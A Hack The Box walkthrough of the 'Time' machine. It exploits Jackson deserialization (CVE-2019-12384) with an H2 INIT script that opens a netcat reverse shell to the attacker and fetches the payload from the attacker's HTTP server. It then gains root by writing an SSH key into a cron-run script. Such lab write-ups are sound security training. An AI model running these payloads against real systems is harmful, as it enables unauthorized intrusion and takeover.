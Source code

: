![](time_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.214 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.214`
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
```

## Web_server

**Title:** **Online JSON parser :** What is JSON PARSER ONLINE? JSON PARSER ONLINE lets you parse JSON string into a pretty and colorful JSON tree view. It parse JSON String and converts it into a human readable format string.

* there are two options 

  **Option1:** **Beautify:** convert JSON single string code into a JSON tree view.

  **Option2:** **Validate (beta!):** Validates a JSON string against RFC 4627 (The application/json media type for JavaScript Object Notation) and against the JavaScript language specification.

  * **Error in Validate (beta!) option**

    when Validate with normal text string it through an error

	    Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN

  *this error not indicate any vulnerability, this error occurs because of the serialization of a Javascript object. All String values MUST be enclosed in double quotes in JSON.*
  
  *if we sent same string inside double quotes it works fine.*

* But the Error tells that the server using JACKSON JSON parser,
  
  **[Jackson](https://github.com/FasterXML/jackson) :** Jackson is a high-performance JSON processor for Java. More than that, Jackson is a suite of data-processing tools for Java (and the JVM platform), Jackson has been known as "the Java JSON library" or "the best JSON parser for Java".
  
  *this server using Jackson library for deserializing JSONs*
  
**vulnerability :** deserialization vulnerability CVE-2019-12384

**Jackson gadgets - Anatomy of a vulnerability** doyensec.com [Report](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

*an attacker may leverage this deserialization vulnerability to trigger attacks such as Server-Side Request Forgery (SSRF) and remote code execution.*

* **attack**

  this attack produce in 2 steps
  
  * **First**, serve the inject.sql INIT file through a simple http server,
  * **Second**, call the script from the server.
  
# User Exploit

**First**, create **inject.sql**  
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun0> 4141 >/tmp/f')
```

**Second**, serve the inject.sql INIT file through a simple http server

    sudo python -m SimpleHTTPServer 80
	  
**Third**, code that pass into the validate option
```json
[
   "ch.qos.logback.core.db.DriverManagerConnectionSource",
   {
      "url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://<tun0>/injection.sql'"
   }
]
```
**Fourth**, open nc

    nc -nvlp 4141

**shell**,

```bash
listening on [any] 4141 ...
connect to [10.10.15.151] from (UNKNOWN) [10.10.10.214] 54528
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
pericles@time:/var/www/html$
```

* **user flag**

	  pericles@time:/var/www/html$ cat ~/user.txt
	  cat ~/user.txt
	  76086ade************************

# Local Enumeration

running lipeas found a script owned by user pericles
```bash
[+] .sh files in path
You own the script: /usr/bin/timer_backup.sh
```

**timer_backup.sh**

	pericles@time:/home/pericles$ ls -lsh /usr/bin/timer_backup.sh
	ls -lsh /usr/bin/timer_backup.sh
	-rwxrw-rw- 1 pericles pericles 88 Nov 18 04:00 /usr/bin/timer_backup.sh

	pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh
	cat /usr/bin/timer_backup.sh
	#!/bin/bash
	zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

* script specified some root task that means script is running as root
  * this script backup complete server directory in root
* script is running in every ~10sec and after that script get reseted

# Root Exploit

*putting any reverseshell in the `timer_backup.sh` to get a root shell dosen't works properly because script exits as soon as it excuted and so shell too.*
*simplest way to get proper root shell is to put ssh key in the script so that we can ssh as root.*

## public ssh key

* create ssh key: `ssh-keygen -f time`
* copy public ssh key: `cat time.pub`

	  ssh-rsa AAAA...ZXMk=

* put ssh key in `timer_backup.sh` script

	  echo "echo 'ssh-rsa AAAA...ZXMk=' >> /root/.ssh/authorized_keys" > /usr/bin/timer_backup.sh

* ssh in: `chdom 600 time`

	  ssh -i time root@10.10.10.214
	  
	  root@time:~# cat root.txt
	  dffebc49************************

### cron tab that occurs root privesc
`crontab -u root -l`
```bash
*/5 * * * * cp /root/timer_backup.sh /usr/bin/timer_backup.sh; chown pericles:pericles /usr/bin/timer.sh; chmod 766 /usr/bin/timer_backup.sh
```